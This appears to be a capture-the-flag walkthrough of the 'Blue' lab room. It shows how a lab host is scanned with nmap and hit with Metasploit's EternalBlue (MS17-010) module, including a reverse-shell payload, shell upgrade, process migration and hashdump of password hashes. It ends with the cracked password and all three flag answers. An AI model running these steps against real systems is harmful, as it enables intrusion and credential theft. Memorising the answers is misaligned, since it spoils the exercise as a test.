








# Blue
Target IP: 10.10.6.32

**Description**: Scan and learn what exploit this machine is vulnerable to.

## Recon
#### Scan the machine. (If you are unsure how to tackle this, I recommend checking out the Nmap room)
**Answer**: No answer needed

#### How many ports are open with a port number under 1000?
```
nmap -T5 -sC -sV -p 0-1000 -oN nmap.out 10.10.6.32
```
[nmap.out](./nmap.out)
The scan shows us that ports 135,139 and 445 are open.

**Answer**: 3

#### What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
We know from the description that there's an exploit for this machine, thus we will scan the ports that we found open with NMAP NSE's vuln scripts.
```
nmap -T5 --script vuln -p 135,139,445 -oN nmap_vuln.out 10.10.6.32

```
[nmap_vuln.out](./nmap_vuln.out)
The scan shows us that the machine is vulnerable to smb-vuln-ms17-010, aka EternalBlue, which makes sense given the name of the room.

Per Wikipedia, "EternalBlue exploits a vulnerability in Microsofts's implementation of the Server Message Block (SMB) protocol. The vulnerability exists because the SMB version 1 (SMBv1) server in various versions of Microsoft Windows mishandles specially crafted packets from remote attackers, allowing them to execute arbitrary code on the target computer."

**Answer**: ms17-010

## Gain Access
#### Start Metasploit
**Answer**: No answer needed

#### Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

**Answer**: exploit/windows/smb/ms17_010_eternalblue

#### Show options and set the one required value. What is the name of this value? (All caps for submission)

**Answer**: RHOSTS

#### Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter: set payload windows/x64/shell/reverse_tcp
#### With that done, run the exploit!
**Answer**: No answer needed

#### Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 
**Answer**: No answer needed

## Escalate
Escalate privileges, learn how to upgrade shells in metasploit.

#### If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
**Answer**: post/multi/manage/shell_to_meterpreter

#### Select this (use MODULE_PATH). Show options, what option are we required to change?

**Answer**: SESSION

#### Set the required option, you may need to list all of the sessions to find your target here. 
**Answer**: No answer needed

#### Run! If this doesn't work, try completing the exploit from the previous task once more.
Run the command "exploit" or "run".

**Answer**: No answer needed

#### Once the meterpreter shell conversion completes, select that session for use.

**Answer**: No answer needed

#### Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

**Answer**: No answer needed

#### List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

**Answer**: No answer needed

#### Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 
**Answer**: No answer needed

## Cracking
Dump the non-default user's password and crack it!

#### Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

**Answer**: Jon

#### Copy this password hash to a file and research how to crack it. What is the cracked password?

**Answer**: alqfna22

## Find flags!
Find the three flags planted on this machine. These are not traditional flags, rather, they're meant to represent key locations within the Windows system. Use the hints provided below to complete this room!

#### Flag1? This flag can be found at the system root. 
Go to "C:\\" and read *flag1.txt*

**Answer**: flag{access_the_machine} 

#### Flag2? This flag can be found at the location where passwords are stored within Windows.
We need to go to "C:\Windows\System32\config\" because is where the SAM file is stored with our passwords.

**Answer**: flag{sam_database_elevated_access}

#### Flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.
We need to go to "C:\Users\Jon\Documents\"

**Answer**: flag{admin_documents_can_be_valuable}
